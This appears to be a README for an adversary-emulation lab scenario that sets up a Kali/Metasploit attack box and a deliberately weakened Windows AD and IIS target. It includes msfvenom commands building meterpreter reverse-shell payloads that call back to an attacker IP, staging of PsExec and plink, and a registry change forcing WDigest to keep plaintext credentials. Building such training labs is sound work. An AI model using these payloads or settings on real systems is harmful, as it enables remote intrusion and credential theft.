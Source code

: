 # Scenario 1 Infrastructure

## I. Emulation Team Infrastructure

### 1. Attack Platform: 

#### [+] Tested and executed on Kali Linux 2023.2

#### [+] Metasploit 6.3.21-dev

#### [+] Stage certain files for download
- Craft session.aspx
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.192 LPORT=4444 -f aspx > /tmp/modules/session.aspx
```

- Craft session.exe
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.192 LPORT=4445 -f exe > /tmp/modules/session.exe
```
- Copy `plink.exe` and `PsExec.exe` to `/tmp/modules/`

- `/tmp/modules/` should now contains these
```
PsExec.exe
session.aspx
session.exe
```

## II. Target Infrastructure

### 1. AD server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall

### 2. IIS server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Forcing WDigest to Store Credentials in Plaintext
- Open Powershell as Administrator
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
#### [+] Join AD domain
#### [+] Domain user with local admin access on this machine
#### [+] A website with upload file vulnerability

